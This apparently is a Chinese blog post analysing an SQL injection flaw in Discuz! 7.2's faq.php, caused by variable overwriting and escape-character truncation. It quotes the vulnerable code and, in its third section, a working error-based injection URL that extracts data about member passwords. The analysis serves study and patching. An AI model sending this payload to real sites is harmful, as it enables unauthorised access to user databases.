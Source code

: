 Title: Diz7.2 faq漏洞代码深入分析
Date: 2014-07-05 10:25
Tags: code

当得知diz7.2漏洞时，查看官方补丁，看见修改 `$gids = Array()`，当时以为只是一个变量覆盖的问题，今天仔细的研究了一下源代码，果真是卧虎藏龙啊。也给了我深深的启发，看问题不能只看表面，需要沉下去，细细品味。费话少说，请看下面分析。

在dz中，GET的数据都会被全局进行addslashes转义，把一些预定字符前加\，所以一般的变量覆盖问题也很难引起注入漏洞。什么原因呢，请看下面关键代码片段

#### **1、关键片段源码**

**1.片段一：**

	$groups = $grouplist = array();

**2.片段二：**

	$groupids = array();
	foreach($gids as $row) {
		$groupids[] = $row[0];
	}

**3.片段三：**

	$query = $db->query("SELECT * FROM {$tablepre}usergroups u LEFT JOIN {$tablepre}admingroups a ON u.groupid=a.admingid WHERE u.groupid IN (".implodeids($groupids).")");


**4.片段四：**

    function implodeids($array) {
	    if(!empty($array)) {
		    return "'".implode("','", is_array($array) ? $array : array($array))."'";
	    } else {
		    return '';
	    }
    }

#### **2、关键片段功能分析**

**1.片段一：**

初始化变量，但这里并没有初始化gids变量，url中传递此变量可以覆盖

**2.片段二：**

取数组gids变量的每个成员的第一个字符，当gids被赋值为`$gids=('12','23','34')`时，groupids就会被赋值为`$groupids=('1','2','3')`，但就是这样所以才出现了问题。

当url中传递gids中包含一个单引号是，经过addslashes转义后就会加上一个\，当前gid就会变为`$gids=('12','\'','34')`，groupids就会被赋值为`$groupids=('1','\','3')`。

可以看出此处的处理导致引入了一个转义的字符。

**3.片段三：**

执行sql语句查询，此处理查询使用了groupids变量，注意变量前后都有符号“()”,并且是在in语句内

**4.片段四：**

将数组分解成一个字符串，每个成员之间使用逗号相连使得in的语句变成`in ('1','\','3')`，本来应该是三个参数的，由于存在一个转义符，此语句只有2个参数1和`',`而后面的`3'`是多余的。

此处如果我们控制`3`的话，就能注入，当`3`为`) and (select 1) %23`，in语句就会变成`in ('1','\',') and select 1 %23')`。

很明显使用`)`闭合了前面的一个`(`，使用`%23`注释掉后面的单引号。注入语句`select 1`得到执行


#### **3、mysql报错注入法**

由于能够控制输入让sql执行，可以使用mysql的报错注入法，使用group by与rand的组合即可爆出数据库的内容，形式如下。还有几种报错法，可以根据原理自由发挥。
    
    faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=)%20and%20(select%201%20from%20(select%20count(*),concat((select%20count(password)%20from%20cdb_members%20limit 1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%23


#### **4、总结**

无巧不成书，种种错误造就了这个漏洞，还好版本相对较低，影响还不太大，总结一下原因

1、变量没有定义并初始化就使用，导致用户输入数据可以变量覆盖，输入信息可控。

2、虽然对用户输入信息有转义处理，但重新赋值给新的变量时，忽视了，将单个转义字符带入sql中。结果，转义字符就会吞食sql语句中一个单引号字符，导致逻辑改变。
